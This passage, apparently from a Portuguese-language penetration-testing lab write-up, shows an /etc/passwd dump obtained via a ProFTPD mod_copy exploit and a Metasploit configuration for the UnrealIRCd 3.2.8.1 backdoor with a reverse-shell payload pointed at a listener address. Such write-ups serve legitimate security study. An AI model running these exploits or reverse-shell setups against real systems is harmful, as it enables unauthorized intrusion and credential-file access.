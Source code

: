 ```console
jabba_hutt:x:1122:100::/home/jabba_hutt:/bin/bash
greedo:x:1123:100::/home/greedo:/bin/bash
chewbacca:x:1124:100::/home/chewbacca:/bin/bash
kylo_ren:x:1125:100::/home/kylo_ren:/bin/bash
mysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/false
avahi:x:107:114:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
colord:x:108:116:colord colour management daemon,,,:/var/lib/colord:/bin/false
```

**Referências**

- MITRE – CVE-2015-3306: https://www.cve.org/CVERecord?id=CVE-2015-3306

- Rapid7 – Módulo do Exploit: https://www.rapid7.com/db/modules/exploit/unix/ftp/proftpd_modcopy_exec/

- [Detalhamento](/doc/proftp.md)


### UnrealIRCd

Para obter acesso inicial à máquina alvo por meio do serviço IRC, exploramos a backdoor presente no UnrealIRCd (versão 3.2.8.1) utilizando o módulo do Metasploit `exploit/unix/irc/unreal_ircd_3281_backdoor`. Essa vulnerabilidade permite a execução de comandos arbitrários via a conexão IRC, possibilitando a abertura de uma shell com privilégios superiores.

**Configuração do Módulo**  


```console
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > show options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.0.207    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   6697             yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.0.156    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```
